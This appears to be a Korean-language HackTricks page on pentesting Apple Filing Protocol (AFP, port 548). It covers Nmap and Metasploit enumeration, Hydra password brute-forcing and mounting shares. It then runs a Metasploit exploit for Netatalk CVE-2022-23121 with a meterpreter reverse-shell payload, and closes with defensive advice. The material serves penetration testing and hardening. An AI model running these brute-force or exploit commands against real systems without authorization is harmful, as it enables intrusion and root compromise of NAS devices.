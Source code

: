 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

**Apple Filing Protocol** (**AFP**)는 한때 AppleTalk Filing Protocol로 알려졌던 전문 네트워크 프로토콜로, **Apple File Service** (**AFS**)에 포함되어 있습니다. 이 프로토콜은 macOS 및 클래식 Mac OS를 위한 파일 서비스를 제공하도록 설계되었습니다. AFP는 유니코드 파일 이름, POSIX 스타일 및 ACL 권한, 리소스 포크, 명명된 확장 속성 및 정교한 파일 잠금 메커니즘을 지원하는 점에서 두드러집니다.

비록 AFP는 현대 macOS 릴리스에서 SMB에 의해 대체되었지만 (OS X 10.9부터 SMB가 기본값), 여전히 다음과 같은 환경에서 발견됩니다:

* 레거시 macOS / Mac OS 9 환경
* 오픈 소스 **Netatalk** 데몬을 포함하는 NAS 장치 (QNAP, Synology, Western Digital, TrueNAS…)
* Time-Machine-over-AFP가 여전히 활성화된 혼합 OS 네트워크

**기본 TCP 포트:** **548** (TCP / DSI를 통한 AFP)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Enumeration

### Quick banner / server info
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
유용한 AFP NSE 스크립트:

| 스크립트 | 기능 |
|--------|--------------|
| **afp-ls**            | 사용 가능한 AFP 볼륨 및 파일 목록 표시 |
| **afp-brute**         | AFP 로그인에 대한 비밀번호 무차별 대입 |
| **afp-serverinfo**    | 서버 이름, 기계 유형, AFP 버전, 지원되는 UAM 등 덤프 |
| **afp-showmount**     | ACL과 함께 공유 목록 표시 |
| **afp-path-vuln**     | 디렉터리 탐색, CVE-2010-0533 감지(및 악용 가능) |

NSE 무차별 대입 스크립트는 더 많은 제어가 필요한 경우 Hydra/Medusa와 결합할 수 있습니다:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### 공유와 상호작용

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*리눅스* (대부분의 배포판에 패키지된 `afpfs-ng` 사용)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
한 번 마운트되면, 고전 Mac 리소스 포크는 숨겨진 `._*` AppleDouble 파일로 저장된다는 것을 기억하세요. 이러한 파일은 DFIR 도구가 놓치는 흥미로운 메타데이터를 종종 포함하고 있습니다.

---

## 일반적인 취약점 및 악용

### Netatalk 인증되지 않은 RCE 체인 (2022)

여러 NAS 공급업체가 **Netatalk ≤3.1.12**를 배포했습니다. `parse_entries()`에서 경계 검사 부족으로 인해 공격자가 악의적인 **AppleDouble** 헤더를 작성하고 인증 전에 **원격 루트**를 얻을 수 있습니다 (**CVSS 9.8 – CVE-2022-23121**). Western-Digital PR4100을 악용하는 PoC와 함께 NCC Group의 전체 작성물이 제공됩니다.

Metasploit (>= 6.3)는 DSI `WRITE`를 통해 페이로드를 전달하는 모듈 `exploit/linux/netatalk/parse_entries`를 포함하고 있습니다.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
대상 시스템이 영향을 받는 QNAP/Synology 펌웨어를 실행하는 경우, 성공적인 익스플로잇은 **root**로서의 쉘을 제공합니다.

### Netatalk OpenSession 힙 오버플로우 (2018)

구버전 Netatalk (3.0.0 - 3.1.11)은 **DSI OpenSession** 핸들러에서의 경계 초과 쓰기에 취약하여 인증되지 않은 코드 실행이 가능합니다 (**CVE-2018-1160**). Tenable Research에 의해 자세한 분석과 PoC가 발표되었습니다.

### 기타 주목할 만한 문제

* **CVE-2022-22995** – AppleDouble v2가 활성화된 경우 (3.1.0 - 3.1.17) 임의 파일 쓰기 / RCE로 이어지는 심볼릭 링크 리디렉션.
* **CVE-2010-0533** – Apple Mac OS X 10.6 AFP에서의 디렉토리 탐색 ( `afp-path-vuln.nse`에 의해 탐지됨).
* **Netatalk 4.x (2024)**에서 여러 메모리 안전성 버그가 수정되었습니다 – 개별 CVE를 패치하기보다는 업그레이드를 권장합니다.

---

## 방어 권장 사항

1. **AFP를 비활성화** 하십시오. 엄격히 필요하지 않은 경우 – 대신 SMB3 또는 NFS를 사용하십시오.
2. AFP를 유지해야 하는 경우, **Netatalk를 ≥ 3.1.18 또는 4.x로 업그레이드** 하거나 2022/2023/2024 패치를 백포트한 공급업체 펌웨어를 적용하십시오.
3. **강력한 UAM**(예: *DHX2*)을 시행하고, 평문 및 게스트 로그인을 비활성화하십시오.
4. TCP 548을 신뢰할 수 있는 서브넷으로 제한하고, 원격으로 노출될 때 AFP를 VPN 내에 감싸십시오.
5. 주기적으로 `nmap -p 548 --script afp-*`로 CI/CD에서 스캔하여 불법 / 다운그레이드된 장비를 탐지하십시오.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## References

* Netatalk Security Advisory CVE-2022-23121 – "parse_entries에서의 임의 코드 실행" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "18년 된 버그 익스플로잇하기 (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
